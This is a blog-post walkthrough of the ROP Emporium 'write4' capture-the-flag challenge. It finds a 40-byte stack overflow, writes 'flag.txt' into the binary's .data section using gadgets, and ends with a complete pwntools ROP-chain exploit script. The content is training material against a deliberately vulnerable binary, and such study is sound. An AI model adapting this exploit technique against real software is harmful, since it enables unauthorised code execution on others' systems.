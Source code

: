 ```yaml
---
layout: post
title: ropemporium - write4
date: 2024-12-27 13:37:00 +0300
description: 
img: write4-cover.png
fig-caption: 
tags:
  - ctf
---
```

*The 4th challenge from ropemporium. This challenge was pretty straightforward, learned about writing strings into a place in memory then picking up that address for usage as parameter. From now looks like we are starting to actually build a CHAIN.*

The intent of this challenge, accordingly to the website guide is to do the following:
1. Write the string "**flag.txt**" into some valid place in memory;
2. Pass that address as a parameter for the "**print_file()**" function.

Checking the program's protections:

![write4]({{site.baseurl}}/assets/img/write4-1.png)

- Partial *RELRO*
- *NX*

Going to the first step, detecting the buffer overflow, so we sent a 100 byte long pattern generated with *msf-pattern_create* and checked with *msf-pattern_offset*.

![write4]({{site.baseurl}}/assets/img/write4-2.png)

Capturing the **RSP** value, we got exact match at offset 40.

![write4]({{site.baseurl}}/assets/img/write4-3.png)

Before starting, we have to consider some things:
1. We have to find a valid writable **and** readable place in memory to put our "**flag.txt**" string.
2. As the challenge suggests, find a gadget that could move our string into that address, e.g. `mov [eax], ebx`

> Quickly saying, I was naive enough to think that passing the string "**flag.txt**" directly as a parameter on **RDI** was going to work, but unfortunately, the function tried to resolve the address for the string passed as parameter, and I could not execute it properly. So by writing the string into a proper memory region and passing its address to `POP RDI`, we comply with both memory permissions and the assumptions the function has about its input.

Taking a look into the program's sections, it was noted a readable and writable section on "**.data**" section, normally used for initialized data.

![write4]({{site.baseurl}}/assets/img/write4-4.png)

Before writing into that section, a double check for existing data inside the address is recommended so the program won't break when running the exploit.

Checking the "**.data**" section if there's some data inside of, it was noted that no data was present until *0x601038*, so all clear for a short string like "**flag.txt**"!

![write4]({{site.baseurl}}/assets/img/write4-5.png)

Talking about the gadgets, two very interesting were present when searching: 

![write4]({{site.baseurl}}/assets/img/write4-6.png)

```
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

With those gadgets, it's possible now to manipulate two registers and use them to send data inside an address, pretty handy tho.

Now, a `pop RDI` is needed to pass the parameter as the calling convention.

![write4]({{site.baseurl}}/assets/img/write4-7.png)

```
0x0000000000400693 : pop rdi ; ret
```

The next step is to get the "print_file()" function address. Checking for imported functions, we can see that it is being imported on the `0x400510` address.

![write4]({{site.baseurl}}/assets/img/write4-8.png)

As so, on the "**.plt**" section.

![write4]({{site.baseurl}}/assets/img/write4-9.png)

So now, all the resources to build the ROP chain were gathered:
1. 40 byte buffer filler
2. Gadget address `pop r14 ; pop r15 ; ret`
3. `.data` Section address
4. `flag.txt` byte string
5. Gadget address `mov qword ptr [r14], r15 ; ret`
6. Gadget address `pop rdi`
7. `print_file()` Function Address

Merging all the logic into the final exploit:

{% highlight python %}
from pwn import *

elf = context.binary = ELF('./write4')

FILL = (b"A"*40)
POP_R14_R15 = p64(0x400690)
DATA_SEC = p64(0x00601028)
STR_FLAG = b"flag.txt"
MOV_R14_R15 = p64(0x400628)
POP_RDI = p64(0x400693)
DATA_SEC = p64(0x00601028)
PRINT_FILE = p64(0x400510)

rop_chain = FILL 
rop_chain += POP_R14_R15 
rop_chain += DATA_SEC 
rop_chain += STR_FLAG 
rop_chain += MOV_R14_R15 
rop_chain += POP_RDI 
rop_chain += DATA_SEC 
rop_chain += PRINT_FILE

io = process(elf.path)
io.sendline(rop_chain)
io.interactive()
{% endhighlight %}

And executing it, we got the flag:

![write4]({{site.baseurl}}/assets/img/write4-10.png)
